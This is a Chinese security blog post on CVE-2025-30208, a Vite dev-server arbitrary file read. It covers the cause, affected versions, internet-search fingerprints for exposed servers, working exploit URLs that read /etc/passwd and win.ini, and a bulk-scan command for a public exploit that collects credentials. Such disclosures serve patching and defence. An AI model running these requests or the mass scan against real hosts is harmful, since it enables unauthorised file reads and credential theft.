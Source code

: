 #  CVE-2025-30208-Vite任意文件读取漏洞服批量漏洞扫描   
原创 泷羽Sec-track  泷羽Sec-track   2025-03-29 10:37  
  
>   
> 声明！本公众号及团队所做的文章及工具分享仅仅只是供大家学习交流为主，切勿用于非法用途，如有任何触犯法律的行为，均与本人及团队无关！！！  
  
## 漏洞信息  
  
CVE-2025-30208是**Vite开发服务器**  
中存在的一个高危逻辑漏洞，允许攻击者通过构造特殊的URL绕过文件访问限制，读取服务器上的任意文件（如配置文件、密钥、数据库凭据等）。该漏洞的利用条件需满足两点：开发服务器通过--host或**server.host**  
配置暴露至网络（非默认配置），且使用受影响版本的Vite由于Vite广泛应用于**Vue、React**  
等主流前端框架，潜在影响范围涉及数十万级资产。  
## 漏洞原理  
  
漏洞源于Vite在处理URL查询参数时的逻辑缺陷。当请求路径包含特定参数（**如?raw??或?import&raw??）**  
时，Vite对URL尾部分隔符（如?  
和&  
）的正则匹配不严格，导致安全检查被绕过。例如，攻击者可构造**类似/@fs/etc/passwd?raw??的请求**  
，利用@fs  
机制（本用于访问项目允许列表内的文件）读取系统敏感文件官方修复方案通过正则表达式/[?&]+$/  
移除URL末尾的冗余分隔符，从而阻断绕过路径。  
## 漏洞特征  
- **Fofa测绘语句:**  
  
```
body="/@vite/client"

```  
- **鹰图Hunter测绘语句:**  
  
```
web.body="/@vite/client"

```  
## 影响范围  
- **6.2.0 <= Vite <= 6.2.2**  
  
- **6.1.0 <= Vite <= 6.1.1**  
  
- **6.0.0 <= Vite <= 6.0.11**  
  
- **5.0.0 <= Vite <= 5.4.14**  
  
- **Vite <= 4.5.9**  
  
## 漏洞复现  
### 手工复现  
  
Linux下  
  
![image-20250329100437887](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw03oPyePOhedo0CMK7WAIp8BfbVlemwFhkb1yRbmdNaKajq6ejMeuZ4OurtAO5RcNvHtKUtz6rjmg/640?wx_fmt=png&from=appmsg "")  
  
image-20250329100437887  
  
windwos下  
```
http://目标IP:端口/@fs/c://windows/win.ini?import&raw??

```  
### poc复现  
  
POC开源网站：也可以回台回复  
CVE-2025-30208获取  
```
https://github.com/ThumpBo/CVE-2025-30208-EXP

```  
  
对单个网站利用  
  
![image-20250329101734949](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw03oPyePOhedo0CMK7WAIp8WccPXfsdVZa3V3K83ob7P3EibreXRCLWliaErEHDFU0NDZsjOu9KcCvQ/640?wx_fmt=png&from=appmsg "")  
  
image-20250329101734949  
  
这里可以**使用-f**  
指定多个ip扫描，比如利用fofa特征拿到的ip资产，导出后进行扫描  
```
python exp.py -f ip.txt

```  
  
扫描结果将会匹配到的账号密码保存在 **output.txt**  
 中，其中 **IP.txt**  
 格式为 http://[ip]/[domain]，一行一个  
  
  

